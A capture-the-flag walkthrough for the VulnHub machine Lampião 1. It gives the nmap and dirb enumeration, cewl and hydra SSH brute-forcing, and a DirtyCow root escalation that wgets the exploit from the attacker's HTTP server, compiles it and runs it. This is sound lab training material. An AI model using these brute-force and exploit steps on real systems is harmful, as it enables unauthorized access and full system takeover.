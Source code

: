 
image: 'https://imgur.com/pRMzLYz.png'
category: Writeup
author: F3dai

Would you like to keep hacking in your own lab? Try this brand new vulnerable machine! "Lampião 1". Get root! 
This was a great machine as I learnt about a new linux vulnerability DirtyCow. Based on my experience, getting the first foothold was easy but escalating the user rights was slightly more tricky as it involved testing out a few different CVEs. Some research helped me identify which one to use, at the end of the day it's experience with privsec which helps the most.

**URL:** [Lampião](https://www.vulnhub.com/entry/lampiao-1,249/)

**Difficulty:** Easy

**Author:** Tiago Tavares

### Enumeration

Set up the Machine with a host-only adapter and run an nmap command to discover all the hosts on the local host-only network. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>nmap -sn 192.168.54.1/24</pre>

![net](https://imgur.com/wcjql1Y.png)

We can identify the machine with the IP 192.168.54.6, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.54.6</pre>

![nmap](https://imgur.com/VFCCq9y.png)

We see port 80 open so let's visit this port with our browser. This is the webpage:

![web](https://imgur.com/xIWHbQG.png)

There doesn't seem to be much, I visit port 1898 on my web browser:

<pre>http://192.168.54.6:1898/</pre>

![1898](https://imgur.com/DsVNj5s.png)

According to the nmap results, there were quite a few entries in the robots.txt. I'll run a dirb scan just to find all the paths:

<pre>dirb http://192.168.54.6:1898/</pre>

![dirb](https://imgur.com/tjqaoIz.png)

First, I'll visit the robots.txt:

<pre>http://192.168.54.6:1898/robots.txt</pre>

![robots](https://imgur.com/BZM1XQo.png)

The above is a snippet of just the disallowed entries. I first visited the changelog.txt path:

<pre>http://192.168.54.6:1898/CHANGELOG.txt</pre>

![changelog](https://imgur.com/3bIk1Va.png)

We can identify a service and version number:

<pre>Drupal 7.54</pre>

This is worth noting in case we need to find any vulnerabilities.

I also wanted to note the potential username "tiago" I found on one of the posts:

<pre>http://192.168.54.6:1898/?q=node/1</pre>

![username?](https://imgur.com/1SEnALL.png)

The URL was worth investigating as well. I tried manually navigating to another post using the URL. I changed ?q=node/1 to ?q=node/2:

<pre>http://192.168.54.6:1898/?q=node/2</pre>

![node 2](https://imgur.com/aEwd0CW.png)

Another possible user named "Eder" as highlighted in the above screenshot. There is also node 3 but no new information. 

I couldn't find much more information on the web pages of this machine so I decided to go straight to brute forcing. There are 2 possible entry points: SSH (identified from our port scan) and the web site login (no admin login page found).

Let's try brute forcing the SSH login - create a wordlist of the 2 usernames found:

<pre>Eder
tiago</pre>

![user list](https://imgur.com/uUAZ9UB.png)

I will use the following hydra command:

<pre>hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.54.6 -t 4 ssh</pre>

-L specified a username wordlist, -P specifies the password wordlist and -t 4 threads.

The hydra command took too long so I wanted to make my wordlist, especially as this seems to be a Portuguese web server. The post @ ?q=node/1 had a lot of words so I want to use a tool called Cewl to crawl this web page and create a wordlist which I can use for my brute-force. Here is the following command:

<pre>cewl http://192.168.54.6:1898/?q=node/1 --write passwords.txt</pre>

This is the first few lines of the wordlist we have just created:

![head](https://imgur.com/VT7CdlT.png)

Let's execute the hydra command again but with this new password list:

<pre>hydra -L users.txt -P passwords.txt 192.168.54.6 -t 4 ssh</pre>

![hydra result](https://imgur.com/hUJHHUG.png)

We have some credentials returned = tiago:Virgulino

Let's use this to connect via SSH:

<pre>ssh tiago@192.168.54.6
Virgulino</pre>

![ssh login](https://imgur.com/82V3xsa.png)

We have successfully logged in as uid tiago. Nice :)

### Privilege Escalation

For this machine, I will be using a script to identify any vulnerabilities on the system. This is a good script I recommend for Linux machines:

[mzet Github](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

Let's download this onto our local machine first:

<pre>wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh</pre>

![wget script](https://imgur.com/7Q0ku2p.png)

Create a HTTP server so we can transfer this onto our victims machine:

<pre>python -m SimpleHTTPServer 8080</pre>

![http](https://imgur.com/az7GBms.png)

Now let's transfer the files into the victims /tmp directory on our ssh shell:

<pre>cd /tmp
wget http://192.168.54.4:8080/linux-exploit-suggester.sh</pre> 

Make this an executable and execute it.

<pre>chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh</pre>

![exe](https://imgur.com/r419VTU.png)

The output will be a list of possible exploits, I will be using this one in particular:

![dirtycow2](https://imgur.com/FYvkIFe.png)

This is called dirtycow because of the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. 

[Dirty Cow Exploit](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

[Here is a youtube video about this exploit.](https://www.youtube.com/watch?v=kEsshExn7aE)

It says the download link however it is no longer stored here. Use this website for the script:

[Source Code](https://www.exploit-db.com/exploits/40847)

As we have done before, download this script onto your local machine and create a simple HTTP server:

<pre>wget https://www.exploit-db.com/raw/40847 40847.cpp
python -m SimpleHTTPServer 8080</pre>

![http](https://imgur.com/MmNh3Sc.png)

Now transfer this file onto the /tmp directory of the victims PC:

<pre>wget http://192.168.54.4:8080/40847
mv 40847 40847.cpp</pre>

![ready](https://imgur.com/eFYdBHu.png)

Now that we have our script 40847.cpp ready, let's compile the file:

<pre>g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil</pre>

![compiled](https://imgur.com/Of8wzTA.png)

We now need to execute "dcow":

<pre>./dcow</pre>

![dcow](https://imgur.com/nHZUYMz.png)

We have been told the root password has been changed to: dirtyCowFun. Let's change to root:

<pre>su root
dirtyCowFun</pre>

We are now logged in as root!

![root](https://imgur.com/G66Xn9q.png)

<pre>id
cd /root
cat flag.txt</pre>
